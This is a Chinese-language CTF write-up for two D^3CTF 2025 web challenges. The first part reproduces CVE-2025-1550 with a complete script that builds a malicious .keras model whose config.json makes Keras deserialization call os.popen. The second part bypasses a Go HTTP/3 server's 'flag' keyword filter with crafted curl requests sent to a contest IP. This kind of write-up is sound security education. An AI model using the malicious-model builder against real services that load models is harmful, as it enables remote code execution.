


## d3model

I created a checker simply to verify the model's loading functionality.

```
There's a size limit for uploaded files, so avoid uploading very large ones
```

附件有一个app.py

```python
import keras
from flask import Flask, request, jsonify
import os


def is_valid_model(modelname):
    try:
        keras.models.load_model(modelname)
    except:
        return False
    return True

app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    return open('index.html').read()


@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400
    
    file = request.files['file']
    
    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400
    
    MAX_FILE_SIZE = 50 * 1024 * 1024  # 50MB
    file.seek(0, os.SEEK_END)
    file_size = file.tell()
    file.seek(0)
    
    if file_size > MAX_FILE_SIZE:
        return jsonify({'error': 'File size exceeds 50MB limit'}), 400
    
    filepath = os.path.join('./', 'test.keras')
    if os.path.exists(filepath):
        os.remove(filepath)
    file.save(filepath)
    
    if is_valid_model(filepath):
        return jsonify({'message': 'Model is valid'}), 200
    else:
        return jsonify({'error': 'Invalid model file'}), 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

分析一下源代码

```python
def is_valid_model(modelname):
    try:
        keras.models.load_model(modelname)
    except:
        return False
    return True
```

这里的话用**`keras.models.load_model`**函数从文件或目录中加载通过保存的模型`model.save()`。

参考官方文档：https://keras.io/api/models/model_saving_apis/model_saving_and_loading/



然后就是检查文件的部分

```python
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400
    
    file = request.files['file']
    
    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400
    
    MAX_FILE_SIZE = 50 * 1024 * 1024  # 50MB
    file.seek(0, os.SEEK_END)
    file_size = file.tell()
    file.seek(0)
    
    if file_size > MAX_FILE_SIZE:
        return jsonify({'error': 'File size exceeds 50MB limit'}), 400
    
    filepath = os.path.join('./', 'test.keras')
    if os.path.exists(filepath):
        os.remove(filepath)
    file.save(filepath)
    
    if is_valid_model(filepath):
        return jsonify({'message': 'Model is valid'}), 200
    else:
        return jsonify({'error': 'Invalid model file'}), 400
```

- 先是检测文件是否上传，并从请求中获取文件对象，后面就是检测文件的大小了

检测通过后保存文件到当前目录下的test.keras，如果文件存在则覆盖，之后用上面的函数加载该文件

test.keras文件是什么呢？`.keras`后缀文件是Keras3.0默认的模型保存文件，替代了以往的**HDF5（.h5）** 和 **TensorFlow SavedModel**格式文件

分析完是没什么头绪，只能翻翻CVE了，翻到一个CVE-2025-1550

https://nvd.nist.gov/vuln/detail/CVE-2025-1550



然后翻到一个文件https://blog.huntr.com/inside-cve-2025-1550-remote-code-execution-via-keras-models

### #CVE-2025-1550复现

首先我们了解一下Keras模型文件组成结构

### Keras模型文件组成结构

Keras 模型由多个组件组成：

- **config.json**文件：架构或配置，指定模型包含哪些层以及它们如何连接。
- **model.weights.h5**：一组权重值（“模型的状态”）。
- **metadata.json**：包含有关模型的元数据信息

这三个文件使用 ZIP 算法压缩，并保存为一个以`.keras`为扩展名的文件。

### 如何保存和加载keras模型

关于保存keras模型，通常会用model.save函数去进行保存

```python
model = ...  # Get model (Sequential, Functional Model, or Model subclass)
model.save('path/to/location.keras')  # The file needs to end with the .keras extension
```

然后就是加载keras模型文件了

其实上面分析代码也可以看出来，加载过程是由load_model 函数启动的，这个函数会根据文件类型和后缀名执行不同的加载路径，但是这里并不是复现的重点

```python
model = keras.models.load_model('path/to/location.keras')
```

我们直接关注模型加载的内部流程

当我们调用加载函数时，会提取ZIP文件的内容然后重构模型，在此阶段会先检查**config.json**文件，了解模型的架构和配置，并调用`_model_from_config`函数，该函数会从config文件中重建模型实例。将 JSON 对象加载到内存后，会调用 deserialize_keras_object 函数将序列化的结构转换回对象。

### 漏洞分析

问题其实就是在于deserialize_keras_object反序列化函数中

我们看看师傅的文章中是怎么说的

当我们详细检查 deserialize_keras_object 函数时，跳过一些不重要的代码块后，我们遇到了两个值得注意的部分。第一个是：

```python
    if class_name == "function":
        fn_name = inner_config
        return _retrieve_class_or_fn(
            fn_name,
            registered_name,
            module,
            obj_type="function",
            full_config=config,
            custom_objects=custom_objects,
        )
```

如果`config.json`文件中的`class_name`值为“function”，则调用`_retrieve_class_or_fn`函数并执行以下代码

```python
        try:
            mod = importlib.import_module(module)
        except ModuleNotFoundError:
            raise TypeError(
                f"Could not deserialize {obj_type} '{name}' because "
                f"its parent module {module} cannot be imported. "
                f"Full object config: {full_config}"
            )
        obj = vars(mod).get(name, None)

        # Special case for keras.metrics.metrics
        if obj is None and registered_name is not None:
            obj = vars(mod).get(registered_name, None)

        if obj is not None:
            return obj
```

**动态导入 Python 模块并获取对象**。这时，你可能会想到直接在 Keras 模型中添加一个 Python 文件并导入。然而，当打开 Keras 的压缩文件时，这个文件会被解压到一个临时目录中，而导入 Keras 的 Python 代码将无法导入这个临时目录中的文件。

在这种情况下，我们可以使用 os.system 命令实现简单的远程代码执行 (RCE)。然而，当我检查是否可以调用此对象并控制其参数时，我发现这不太可能。

当我们继续阅读代码时，这一部分很突出：

```python
    cls = _retrieve_class_or_fn(
        class_name,
        registered_name,
        module,
        obj_type="class",
        full_config=config,
        custom_objects=custom_objects,
    )

    if isinstance(cls, types.FunctionType):
        return cls
    if not hasattr(cls, "from_config"):
        raise TypeError(
            f"Unable to reconstruct an instance of '{class_name}' because "
            f"the class is missing a `from_config()` method. "
            f"Full object config: {config}"
        )

    # Instantiate the class from its config inside a custom object scope
    # so that we can catch any custom objects that the config refers to.
    custom_obj_scope = object_registration.CustomObjectScope(custom_objects)
    safe_mode_scope = SafeModeScope(safe_mode)
    with custom_obj_scope, safe_mode_scope:
        try:
            instance = cls.from_config(inner_config)
        except TypeError as e:
            raise TypeError(
                f"{cls} could not be deserialized properly. Please"
                " ensure that components that are Python object"
                " instances (layers, models, etc.) returned by"
                " `get_config()` are explicitly deserialized in the"
                " model's `from_config()` method."
                f"\n\nconfig={config}.\n\nException encountered: {e}"
            )
        build_config = config.get("build_config", None)
        if build_config and not instance.built:
            instance.build_from_config(build_config)
            instance.built = True
        compile_config = config.get("compile_config", None)
        if compile_config:
            instance.compile_from_config(compile_config)
            instance.compiled = True
```

这里，`_retrieve_class_or_fn`函数再次被调用，现在我们可以调用方法并管理输入了。然而，尽管我进行了所有检查，却没有找到`from_config` 、`build_from_config`和`compile_from_config`方法的可利用版本；除了一个之外。

当我检查`src/models/model.py`文件中Model类的`from_config`方法时，我发现调用了` functional_from_config`方法。

```python
def functional_from_config(cls, config, custom_objects=None):
    """Instantiates a Functional model from its config (from `get_config()`).

    Args:
        cls: Class of the model, e.g. a custom subclass of `Model`.
        config: Output of `get_config()` for the original model instance.
        custom_objects: Optional dict of custom objects.

    Returns:
        An instance of `cls`.
    """
    # Layer instances created during
    # the graph reconstruction process
    created_layers = {}

    # Dictionary mapping layer instances to
    # node data that specifies a layer call.
    # It acts as a queue that maintains any unprocessed
    # layer call until it becomes possible to process it
    # (i.e. until the input tensors to the call all exist).
    unprocessed_nodes = {}

    def add_unprocessed_node(layer, node_data):
        """Add node to layer list

        Arg:
            layer: layer object
            node_data: Node data specifying layer call
        """
        if layer not in unprocessed_nodes:
            unprocessed_nodes[layer] = [node_data]
        else:
            unprocessed_nodes[layer].append(node_data)

    def process_node(layer, node_data):
        """Reconstruct node by linking to inbound layers

        Args:
            layer: Layer to process
            node_data: List of layer configs
        """
        args, kwargs = deserialize_node(node_data, created_layers)
        # Call layer on its inputs, thus creating the node
        # and building the layer if needed.
        layer(*args, **kwargs)

    def process_layer(layer_data):
        """Deserializes a layer and index its inbound nodes.

        Args:
            layer_data: layer config dict.
        """
        layer_name = layer_data["name"]

        # Instantiate layer.
        if "module" not in layer_data:
            # Legacy format deserialization (no "module" key)
            # used for H5 and SavedModel formats
            layer = saving_utils.model_from_config(
                layer_data, custom_objects=custom_objects
            )
        else:
            layer = serialization_lib.deserialize_keras_object(
                layer_data, custom_objects=custom_objects
            )
        created_layers[layer_name] = layer

        # Gather layer inputs.
        inbound_nodes_data = layer_data["inbound_nodes"]
        for node_data in inbound_nodes_data:
            # We don't process nodes (i.e. make layer calls)
            # on the fly because the inbound node may not yet exist,
            # in case of layer shared at different topological depths
            # (e.g. a model such as A(B(A(B(x)))))
            add_unprocessed_node(layer, node_data)

    # Extract config used to instantiate Functional model from the config. The
    # remaining config will be passed as keyword arguments to the Model
    # constructor.
    functional_config = {}
    for key in ["layers", "input_layers", "output_layers"]:
        functional_config[key] = config.pop(key)
    for key in ["name", "trainable"]:
        if key in config:
            functional_config[key] = config.pop(key)
        else:
            functional_config[key] = None

    # First, we create all layers and enqueue nodes to be processed
    for layer_data in functional_config["layers"]:
        process_layer(layer_data)

    # Then we process nodes in order of layer depth.
    # Nodes that cannot yet be processed (if the inbound node
    # does not yet exist) are re-enqueued, and the process
    # is repeated until all nodes are processed.
    while unprocessed_nodes:
        for layer_data in functional_config["layers"]:
            layer = created_layers[layer_data["name"]]

            # Process all nodes in layer, if not yet processed
            if layer in unprocessed_nodes:
                node_data_list = unprocessed_nodes[layer]

                # Process nodes in order
                node_index = 0
                while node_index < len(node_data_list):
                    node_data = node_data_list[node_index]
                    try:
                        process_node(layer, node_data)

                    # If the node does not have all inbound layers
                    # available, stop processing and continue later
                    except IndexError:
                        break

                    node_index += 1

                # If not all nodes processed then store unprocessed nodes
                if node_index < len(node_data_list):
                    unprocessed_nodes[layer] = node_data_list[node_index:]
                # If all nodes processed remove the layer
                else:
                    del unprocessed_nodes[layer]

    # Create list of input and output tensors and return new class
    name = functional_config["name"]
    trainable = functional_config["trainable"]
```

检查此方法时，我们发现`process_layer`方法使用` functional_config["layers"]`输入创建一个层。然后，调用`add_unprocessed_node`函数（即将创建的层添加到`unprocessed_nodes`列表中）。之后，我们注意到此层值通过`process_node`函数调用，其参数也是我们控制的值。如果我们能够使用正确的类型调用参数且不做任何更改，就能实现我们的目标。

```python
def deserialize_node(node_data, created_layers):
    """Return (args, kwargs) for calling the node layer."""
    if not node_data:
        return [], {}

    if isinstance(node_data, list):
        # Legacy case.
        # ... more code
        return [unpack_singleton(input_tensors)], kwargs

    args = serialization_lib.deserialize_keras_object(node_data["args"])
    kwargs = serialization_lib.deserialize_keras_object(node_data["kwargs"])
    def convert_revived_tensor(x):
        if isinstance(x, backend.KerasTensor):
            history = x._pre_serialization_keras_history
            if history is None:
                return x
            layer = created_layers.get(history[0], None)
            if layer is None:
                raise ValueError(f"Unknown layer: {history[0]}")
            inbound_node_index = history[1]
            inbound_tensor_index = history[2]
            if len(layer._inbound_nodes) <= inbound_node_index:
                raise IndexError(
                    "Layer node index out of bounds.\n"
                    f"inbound_layer = {layer}\n"
                    f"inbound_layer._inbound_nodes = {layer._inbound_nodes}\n"
                    f"inbound_node_index = {inbound_node_index}"
                )
            inbound_node = layer._inbound_nodes[inbound_node_index]
            return inbound_node.output_tensors[inbound_tensor_index]
        return x

    args = tree.map_structure(convert_revived_tensor, args)
    kwargs = tree.map_structure(convert_revived_tensor, kwargs)
    return args, kwargs
```

`deserialize_node`用于转换配置数据中的 inbound_nodes 值，并使用`deserialize_keras_object`执行反序列化操作。但是，目前我们不需要这些操作，因此当我们提供纯文本时，我们会直接返回原值，无需进行类型转换。

### 漏洞利用

直接用exp打就行了

```json
import os
import zipfile
import json
from keras.models import Sequential
from keras.layers import Dense
import numpy as np

model_name = "model.keras"

x_train = np.random.rand(100, 28 * 28)
y_train = np.random.rand(100)

model = Sequential([Dense(1, activation='linear', input_dim=28 * 28)])

model.compile(optimizer='adam', loss='mse')
model.fit(x_train, y_train, epochs=5)
model.save(model_name)

with zipfile.ZipFile(model_name, "r") as f:
    config = json.loads(f.read("config.json").decode())

config["config"]["layers"][0]["module"] = "keras.models"
config["config"]["layers"][0]["class_name"] = "Model"
config["config"]["layers"][0]["config"] = {
    "name": "test",
    "layers": [
        {
            "name": "layer_name",
            "class_name": "popen",
            "config": "config",
            "module": "os",
            "inbound_nodes": [
                {
                    "args" : [
                        "whoami > /tmp/1.txt"
                    ]
                }
            ]
        }
    ],
    "input_layers": "",
    "output_layers": ""
}

with zipfile.ZipFile(model_name, 'r') as zip_read:
    with zipfile.ZipFile(f"tmp.{model_name}", 'w') as zip_write:
        for item in zip_read.infolist():
            if item.filename != "config.json":
                zip_write.writestr(item, zip_read.read(item.filename))

os.remove(model_name)
os.rename(f"tmp.{model_name}", model_name)

with zipfile.ZipFile(model_name, "a") as zf:
    zf.writestr("config.json", json.dumps(config))

print("[+] Malicious model ready")
```

把config.json的内容改成恶意RCE就行了

## tidy quic

一个简单的基于 quic-go 的 HTTP3 服务器

```go
package main

import (
	"bytes"
	"errors"
	"github.com/libp2p/go-buffer-pool"
	"github.com/quic-go/quic-go/http3"
	"io"
	"log"
	"net/http"
	"os"
)

var p pool.BufferPool
var ErrWAF = errors.New("WAF")

func main() {
	go func() {
		err := http.ListenAndServeTLS(":8080", "./server.crt", "./server.key", &mux{})
		log.Fatalln(err)
	}()
	go func() {
		err := http3.ListenAndServeQUIC(":8080", "./server.crt", "./server.key", &mux{})
		log.Fatalln(err)
	}()
	select {}
}

type mux struct {
}

func (*mux) ServeHTTP(w http.ResponseWriter, r *http.Request) {
	if r.Method == http.MethodGet {
		_, _ = w.Write([]byte("Hello D^3CTF 2025,I'm tidy quic in web."))
		return
	}
	if r.Method != http.MethodPost {
		w.WriteHeader(400)
		return
	}

	var buf []byte
	length := int(r.ContentLength)
	if length == -1 {
		var err error
		buf, err = io.ReadAll(textInterrupterWrap(r.Body))
		if err != nil {
			if errors.Is(err, ErrWAF) {
				w.WriteHeader(400)
				_, _ = w.Write([]byte("WAF"))
			} else {
				w.WriteHeader(500)
				_, _ = w.Write([]byte("error"))
			}
			return
		}
	} else {
		buf = p.Get(length)
		defer p.Put(buf)
		rd := textInterrupterWrap(r.Body)
		i := 0
		for {
			n, err := rd.Read(buf[i:])
			if err != nil {
				if errors.Is(err, io.EOF) {
					break
				} else if errors.Is(err, ErrWAF) {
					w.WriteHeader(400)
					_, _ = w.Write([]byte("WAF"))
					return
				} else {
					w.WriteHeader(500)
					_, _ = w.Write([]byte("error"))
					return
				}
			}
			i += n
		}
	}
	if !bytes.HasPrefix(buf, []byte("I want")) {
		_, _ = w.Write([]byte("Sorry I'm not clear what you want."))
		return
	}
	item := bytes.TrimSpace(bytes.TrimPrefix(buf, []byte("I want")))
	if bytes.Equal(item, []byte("flag")) {
		_, _ = w.Write([]byte(os.Getenv("FLAG")))
	} else {
		_, _ = w.Write(item)
	}
}

type wrap struct {
	io.ReadCloser
	ban []byte
	idx int
}

func (w *wrap) Read(p []byte) (int, error) {
	n, err := w.ReadCloser.Read(p)
	if err != nil && !errors.Is(err, io.EOF) {
		return n, err
	}
	for i := 0; i < n; i++ {
		if p[i] == w.ban[w.idx] {
			w.idx++
			if w.idx == len(w.ban) {
				return n, ErrWAF
			}
		} else {
			w.idx = 0
		}
	}
	return n, err
}

func textInterrupterWrap(rc io.ReadCloser) io.ReadCloser {
	return &wrap{
		rc, []byte("flag"), 0,
	}
}
```

前面的是关于请求的处理，不重要，主要看后面的请求处理检查的逻辑

```go
if !bytes.HasPrefix(buf, []byte("I want")) {
    _, _ = w.Write([]byte("Sorry I'm not clear what you want."))
    return
}
item := bytes.TrimSpace(bytes.TrimPrefix(buf, []byte("I want")))
if bytes.Equal(item, []byte("flag")) {
    _, _ = w.Write([]byte(os.Getenv("FLAG"))) // 返回 FLAG 环境变量
} else {
    _, _ = w.Write(item) // 原样返回
}
```

这里要求请求体必须以`I want`开头，如果请求`I want flag`，则返回flag的内容，否则就原样返回

但是这里有waf

```go
func textInterrupterWrap(rc io.ReadCloser) io.ReadCloser {
	return &wrap{
		rc, []byte("flag"), 0,
	}
```

对 `r.Body` 进行包装，检测是否包含 `"flag"` 字符串。

```go
type wrap struct {
    io.ReadCloser
    ban []byte // 要检测的字符串（"flag"）
    idx int    // 当前匹配位置
}

func (w *wrap) Read(p []byte) (int, error) {
    n, err := w.ReadCloser.Read(p)
    if err != nil && !errors.Is(err, io.EOF) {
        return n, err
    }
    for i := 0; i < n; i++ {
        if p[i] == w.ban[w.idx] { // 匹配到 "flag" 的一个字符
            w.idx++
            if w.idx == len(w.ban) { // 完全匹配 "flag"
                return n, ErrWAF // 触发 WAF
            }
        } else {
            w.idx = 0 // 重置匹配
        }
    }
    return n, err
}

```

这里的话会收集flag中的每个字符，如果完全符合flag就会触发WAF，所以双写绕过是不行的

但是分析后可以发现，这里读取的 Body 长度取决于ContentLength 字段而非实际长度，然后在for循环中可以看到n其实就是读取到的数据的长度，假如我们自己设置该请求头ContentLength，是否让waf只读取部分内容呢？那我们是否可以利用这个误差打一个绕过？

因为我的curl不支持http3，所以得重新搞一个

先测试连接

```
C:\Users\23232\Desktop>curl -X GET https://35.241.98.126:30413/ --http3 -i --insecure
HTTP/3 200
content-type: text/plain; charset=utf-8
date: Tue, 03 Jun 2025 06:09:03 GMT
content-length: 39

Hello D^3CTF 2025,I'm tidy quic in web.
```

发现能成功连接

```
C:\Users\23232\Desktop>curl -X POST https://35.241.98.126:30413/ --http3 -d "I want flag" -H "Content-Length: 11" -i --insecure
HTTP/3 400
date: Tue, 03 Jun 2025 06:11:59 GMT
content-length: 3
content-type: text/plain; charset=utf-8

WAF
```

正常传入的话会触发waf

```
x=$'I want \0flag'
curl -X POST https://35.241.98.126:30413/ --http3 -d "$x" -H "Content-Length: 11" -i --insecure
```

不知道为什么设置的环境变量一直穿不进去，但是包那边是打通了的

只会做这两个，其他的太难了。。。
